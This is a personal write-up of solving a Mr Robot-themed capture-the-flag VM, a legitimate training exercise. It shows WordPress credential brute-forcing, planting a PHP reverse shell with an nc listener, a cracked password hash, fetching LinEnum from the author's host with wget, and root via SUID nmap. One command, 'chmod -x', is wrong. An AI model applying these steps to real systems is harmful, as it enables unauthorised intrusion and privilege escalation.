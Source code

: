 # flag 1
### the startup process
When starting any CTF like this one i scan the VM with nmap to see if there is any open services.
Upon search port 80 was open to a HTTP service
When you go to the IP:80 you will be greeted with a mr robot themed shell with afew commands you can use. 
I tried each of these and beyond the cool visuals got nothing from them.

### What i did next
I then decided to scan the directory of the site using dirsearch.
Upon completion i saw the site was using robots.txt which is a file that excludes items from webcrawling.
After opening robots.txt you will see the file name for the first flag which was then found.
You will also find a .dir file containing what i think is possible usernames to the website

# flag 2
For the next step i investigated the wordpress login i found during the dirsearch
I used burpsuite with the dictionary found during flag one and got the username "elliot"
I then used the found username with the same dic file to try get the password

### tools used
I could of continued to use burpsuite but its slow for such a large dataset.
I decided to use WPScan as it allows for faster password attacks since its not limited 

After the wordlist i found earlier had ran for abit i got the password.

### PHP reverse shell
Once i had access to the wordpress i needed to find a way to get a shell on my terminal from the vulnerable machine

For this i used a PHP reverse shell exploit from Pentestmonkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
I inserted the code into the archive.php site and then when i go to this site the exploit will auto execute giving me a reverse shell

First i set up the listener
```
└─$ nc -nvlp 8080      
listening on [any] 8080 ...
```

then when i went to the site i got the execution of exploit and a shell in my terminal 
```
connect to [IP] from (UNKNOWN) [IP] 50319
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:45:12 up 13:26,  0 users,  load average: 0.00, 0.01, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### what i found using the reverse shell
in the /home/robot/ directory is two files
key-2-of-3.txt
and a password hash

I cannot access the key without the correct permissions so for this we will need to crack the password hash.
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```
is the password has for robots user
For the cracking of the hash i used a online md5 cracking website
That successfully gives you the password

### the trouble
After this i was stuck on how to login to the user i had now got the password for.
I tried to SSH into it but couldnt get passed a connection fail
This is when someone suggested i needed to include the bin/bash folder so using python i did this with the command
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
after this i could login as robot by doing 
```
su robot
```
and the password

Once i had the user set as robot i was able to go to /home/robot and open key-2-of-3.txt successfully getting the key

# flag 3

To get the root shell i needed more information so i put LinEnum on a webserver and downloaded it to the shell i had created in flag 2 using
```
wget IP:port/LinEnum.sh
chmod -x LinEnum.sh
```
I then ran the script and found this
```
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```
This tells me i can exploit the nmap install on the server
I went to GTFOBins and looked for NMAP

I had to find the version of nmap running so i did 
` /usr/local/bin/nmap `
and found it was version 3.81
meaning i could run the command

```
nmap --interactive
!sh
```
After this you will have root access and in the root folder you will find key-3-of-3.txt

# complete! 
## What did i learn
- NMAP Scanning for open services
- webcrawling from the terminal
- using wordlists to find username and passwords
- creating a reverse shell using already avaliable tools
- stablizing a shell using python
- Using shells
- Hosting my own files to a webserver
- using LinEnum to identify potential flaws in a system
- exploiting SUIDs using GTFOBins
- Exploring linux filesystems

Overall i learned alot
